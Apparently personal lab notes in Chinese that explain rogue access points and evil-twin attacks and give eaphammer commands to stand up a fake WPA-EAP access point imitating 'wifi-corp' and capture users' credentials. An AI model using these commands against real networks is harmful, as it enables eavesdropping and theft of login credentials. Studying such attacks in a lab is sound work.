 Rogue Access Point
===
🔙 [MENU README](./README.md)


# Rogue AP
```
Rogue AP，也就是流氓(未經授權)接入點，aka 偷裝的基地台
類似於Shadow IT，影響機密性(可竊聽)還有管理問題

與EvilTwin很類似，差別只在EvilTwin可以仿冒完整的SSID跟BSSID(MAC)
```

# Evil Twin
![](../_src/EvilTwin.png)

# 架設假AP(WiFi)
Reset Enviroment
```bash
./restartWiFi.sh

sudo systemctl start network-manager
sudo su 
cd /root/tools/eaphammer
# https://github.com/s0lst1c3/eaphammer
```
生成憑證
```bash
# 也就是網頁上的鎖頭
# 除了第一個要填US，其他可隨意填
python3 ./eaphammer --cert-wizard
```
生成假AP
```bash
# Fake wifi-corp with 換行符號
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced --essid-stripping '\r'

# 開啟GUI介面可以看到兩個幾乎一樣的wifi-corp AP
# Evil Twin會更暴力一點把你直接踢下線，去連偽造的信號強度更強的AP
```
